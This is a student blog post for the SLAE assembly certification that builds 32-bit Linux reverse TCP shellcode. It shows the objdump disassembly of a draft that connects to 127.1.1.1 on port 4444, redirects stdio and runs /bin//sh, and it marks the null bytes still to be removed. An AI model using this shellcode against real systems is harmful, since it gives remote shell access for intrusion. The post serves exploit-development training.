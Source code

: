 
# SLAE Assignment #2

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

Create a Shell_Reverse_TCP shellcode

* Reverse connects to configured IP and Port
* Execs shell on successful connection
* IP and Port should be easily configurable


vagrant@precise32:/slae_code/Assignment 2$ objdump -d ReverseShellTcp -M intel

ReverseShellTcp:     file format elf32-i386

## Check for null bytes

The shellcode has some issues since many null bytes are present, the code must be reworked in order to be null bytes free

Disassembly of section .text:

08048080 <_start>:
 8048080:	b8 66 00 00 00       	mov    eax,0x66 <-------------- Null Bytes
 8048085:	bb 01 00 00 00       	mov    ebx,0x1 <-------------- Null Bytes
 804808a:	6a 00                	push   0x0 <-------------- Null Bytes
 804808c:	6a 01                	push   0x1
 804808e:	6a 02                	push   0x2
 8048090:	89 e1                	mov    ecx,esp
 8048092:	cd 80                	int    0x80
 8048094:	89 c7                	mov    edi,eax
 8048096:	b8 66 00 00 00       	mov    eax,0x66 <-------------- Null Bytes
 804809b:	bb 03 00 00 00       	mov    ebx,0x3 <-------------- Null Bytes
 80480a0:	68 7f 01 01 01       	push   0x101017f
 80480a5:	66 68 11 5c          	pushw  0x5c11
 80480a9:	66 6a 02             	pushw  0x2
 80480ac:	89 e1                	mov    ecx,esp
 80480ae:	6a 10                	push   0x10
 80480b0:	51                   	push   ecx
 80480b1:	57                   	push   edi
 80480b2:	89 e1                	mov    ecx,esp
 80480b4:	cd 80                	int    0x80
 80480b6:	b8 3f 00 00 00       	mov    eax,0x3f <-------------- Null Bytes
 80480bb:	89 fb                	mov    ebx,edi
 80480bd:	b9 00 00 00 00       	mov    ecx,0x0 <-------------- Null Bytes
 80480c2:	cd 80                	int    0x80
 80480c4:	b8 3f 00 00 00       	mov    eax,0x3f <-------------- Null Bytes
 80480c9:	b9 01 00 00 00       	mov    ecx,0x1 <-------------- Null Bytes
 80480ce:	cd 80                	int    0x80
 80480d0:	b8 3f 00 00 00       	mov    eax,0x3f <-------------- Null Bytes
 80480d5:	b9 02 00 00 00       	mov    ecx,0x2 <-------------- Null Bytes
 80480da:	cd 80                	int    0x80
 80480dc:	b8 0b 00 00 00       	mov    eax,0xb <-------------- Null Bytes
 80480e1:	6a 00                	push   0x0 <-------------- Null Bytes
 80480e3:	68 2f 2f 73 68       	push   0x68732f2f
 80480e8:	68 2f 62 69 6e       	push   0x6e69622f
 80480ed:	89 e3                	mov    ebx,esp
 80480ef:	b9 00 00 00 00       	mov    ecx,0x0 <-------------- Null Bytes
 80480f4:	ba 00 00 00 00       	mov    edx,0x0 <-------------- Null Bytes
 80480f9:	cd 80                	int    0x80
vagrant@precise32:/slae_code/Assignment 2$ 